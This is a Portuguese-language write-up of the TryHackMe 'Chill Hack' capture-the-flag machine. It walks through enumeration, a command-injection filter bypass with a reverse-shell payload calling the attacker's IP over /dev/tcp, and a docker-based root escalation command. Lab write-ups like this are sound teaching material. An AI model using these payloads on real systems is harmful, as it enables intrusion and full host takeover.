

# Chill Hack - THM writeup


Na enumeração de portas, temos 3 itens pra verificar uma porta 80 HTTP padrão, uma 21 FTP e uma 22 SSH. 

Falando em portas FTP abertas, a primeira coisa que fazemos é tentar FTP anonymous. 


Conseguimos um arquivo note.txt. 



Certo, agora vamos olhar a página web e ver o que temos lá dentro. 


Uma página web normal, como padrão em testes vamos fazer fuzzing de URL e diretórios.


Nessa parte, precisamos ficar atentos aos filtros que usamos na URL. Eu demorei um pouco pra ver que estava buscando só por 200. Precisamos buscar por mais status code de respostas HTTP (200, 204, 301 e mais alguns de sua preferencia dependendo do escopo).

Descobrimos um diretório chamado /secret.


Achamos um RCE com um filtro de strings. Agora precisamos montar uma payload para pegarmos a shell nessa máquina.

```id;bash -c 'sh -i >& /dev/tcp/10.8.19.30/9001 0>&1'```

Esse comando bypassa o filtro da aplicação e abre uma shell. O ; no linux abre espaço pra outro comando, isso permite que a gente passe um comando usando bash -c '', que executa por CLI um comando bash.


Agora vamos escalar pra user.


O comando sudo -l mostra arquivos que podem ser executados com uma permissão maior. Nesse o arquivo .helpline.sh

Vamos ter problemas ao usar o terminal sem o TERM

export TERM=screen


Agora entramos no ssh do apaar com a key da pasta .ssh 


Depois de muitas pesquisas, encontrei esse comando. Tive muita dificuldade de entender como ele funciona. Entendendo a base dele temos

docker run - Inicia um contêiner Docker.
-v /:/mnt - Monta o sistema de arquivos raiz do host no diretório /mnt do contêiner

--rm - Remove o contêiner automaticamente quando ele é encerrado

-it - Permite a interação com o shell do contêiner

alpine - Especifica a imagem do Alpine Linux a ser usada para o contêiner

chroot /mnt sh - Executa o comando chroot para alterar o diretório raiz para /mnt e inicia um shell dentro do contêiner.


```docker run -v /:/mnt --rm -it alpine chroot /mnt sh``` 


